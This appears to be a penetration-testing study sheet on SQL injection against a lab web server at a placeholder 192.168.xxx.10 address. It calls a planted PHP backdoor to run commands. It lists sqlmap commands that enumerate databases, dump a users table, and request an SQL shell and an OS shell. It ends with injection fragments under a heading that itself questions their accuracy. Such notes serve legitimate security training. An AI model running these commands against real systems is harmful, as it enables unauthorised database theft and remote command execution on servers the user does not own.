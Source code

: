 
If the above works, we can access the backdoor:  
```null
http://192.168.xxx.10/backdoor.php?cmd=ipconfig
```

  
  
### Automation ([sqlmap](sqlmap.md)):

See if vuln exists: (Can specify parameter w/ **-p**)  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1"
```

Enumerate available databases:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --dbs
```

Enumerate given database's tables:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb --tables
```

Enumerate given db's table's columns:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb -T users --columns
```
  
Dump info:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb -T users --dump
```
  
Can try for a SQL shell:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --sql-shell
```

Or an OS shell:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --os-shell
```
	- Need to choose back-end DBMS (ASP, ASPX, PHP, JSP)  
	- Will ask “Retrieve command from standard output”. (yes, no, always)  







### Inaccurate??



```sql
user()
```
	Shows user and hostname of the account interacting w/ the db  

```sql
database()
```
	Shows name of the db in use  


```sql
table_name FROM information_schema.tables
```
	Enumerates through all tables listed in schema  